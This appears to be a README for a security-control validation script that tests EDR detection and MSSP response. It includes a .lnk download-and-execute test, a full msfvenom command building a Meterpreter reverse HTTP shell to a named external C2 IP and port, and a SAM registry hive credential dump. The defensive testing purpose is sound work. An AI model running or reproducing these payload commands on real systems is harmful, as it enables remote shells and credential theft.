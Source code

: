 # ResponseValidation
```
                                                                                               @@@
                                                                                             @@@ @ @@@@
                                                                                           @@@ @ @@@ @
                                                                                        @@@@ @@@@ @  @@@
                                                                                     /@@@ @@@@  @@@@@ @
                                                                                  #@@. @@@@ @@@@@ &@
                                                                               @@@@@@@@  @@@   @@@@@@&
                                                                            @@@@@@@@@@@@  @@@@@@ @@
                                                                         @@@@@@@@@@@@@@@@   @@@@@@
                                                                      @@@@@@@@@@@@@ %@@@@@   @@
                                                  @@               @@@@    @@@@@@@@   @@@@@@@.@
                                             @@@@ @@@@          @@@@       @@@@@@@@      @@
                                          @@@     @@@@@@      @@@@       @@@@@@@@@@@@  @
                                       @@@@            @@@   @@@       @@@@@@@@@@@@@@ @
                                       @@               @@@ @@@       @@@@@@@  @@@@
                                        @@              @@@@@@      @@@@@@@@@@  @@
                                         @@              @@@@      @@@@@@@@@@@@
                                          @(          /@@@        @@@@@    @
                                          @@       @@@@          @@@@@@@@ @
                                          @ @@@@@@@#             /@@@@@@@
                                        @@@@@@@                    @@@@ @
                                      @  @@@@@                       @@@@
                                    @  @@@@             @@/            @@@@@@
                                   @ %@@ @@  @@@@@@@@,   @@         ,@@@@@@@@@@@@@@@@@@@@@@@@@@@
                                    @ @@         @@@@@  @@@@@@@@@@@  ,@@@@@@@@@@@@,@@% ,@@@@@@@
                                     @           @@@@@ @@                  &@@& @@  @@@@@@
                                                @@@@@@@*
                                               @@@ @@
                                            @@   @
    TRIFIDENT                           @@ @@@@@
Security Validation Tests v0.1              @
```
Runs a series of validation checks on the local machine to serve as proof-points for our assessment and are based on the identification of implemented security controls, where we attempt to validate these controls are working as intended. This is not a penetration test, rather a validation that security controls are working properly, and where possible, to test incident communications between providers and response times.

The Following test will be performed:

## Validate EDR Detection and Response:
### T1204.002 : User Execution: Malicious File

> Defanged malicious .lnk file
> Generated by RedCanary as part of the Atomic Red Team framework. All code available for review on their Github Page [Link].  Trifident has reviewed the resulting putty and confirmed it is non-malicious.
> 	
> LNK files are based on the Shell Link Binary file format, also known as Windows shortcuts. But what seems a relatively simple ability to execute other binaries on the system can inflict great harm when abused by threat actors. Microsoft’s decision to block macros by default for files downloaded from the internet in Office applications provoked malware developers to shift to other techniques. 
> 
> This test downloads a crafted .lnk file from github, and then attempts to execute it. When executed, the .lnk file attempts to download a clean copy of Putty (a windows based ssh client) as “a.exe” and attempts to execute it. 
> 
> Expected Outcome: EDR detects, alerts, and quarantines the LNK file, however Putty still executes.


### T1204.002 : User Execution: Malicious File
> Defanged Malware: Meterpreter 
> Generated by Trifident for this engagement, using the following command: 
> msfvenom -p windows/meterpreter_reverse_http LHOST=172.174.245.183 LPORT=9191 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
> 
> Meterpreter is a Metasploit attack payload that provides an interactive shell to the attacker from which to explore the target machine and execute code. Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.
> 
> Shell.exe attempts to shovel a meterpreter shell from the host machine to a Trifident owned C2 server over HTTP (port 9191) located in Azure at the IP address of 172.174.245.183.  The C2 meterpreter listener is disabled by default on our C2 server. If execution succeeds, the C2 channel will not be established. If you would like to validate the C2 server is non-operational prior to execution, you can perform the following test:
> nmap -p 9191 172.174.245.183
> *Note: Other ports may be open as this C2 server is used for multiple engagements.
> 
> Expected Outcome: SentinelOne detects, alerts, and quarantines shell.exe without execution.


### T1003.002 : OS Credential Dumping: Security Account Manager
> This test uses the LOLbin “reg” (more info) to attempt to dump the SAM registry hive to a temp file location. This technique is known by attackers to retrieve password hashes and key material. 
> 
> Expected Outcome: SentinelOne detects, alerts, and prevents execution.

### Capture notification evidence
> The script will note the time each test was executed. Please take screenshots of any emails, phone calls, text messages, or any other contact method used by the MSSP vendor. 
> For any tickets that are opened, assigned, or you are notified of, please respond indicating that this was as a result of ongoing security testing, and that the ticket can be closed. 

### Clean Up
> All files downloaded, installed, or created by this script will be automatically removed at completion


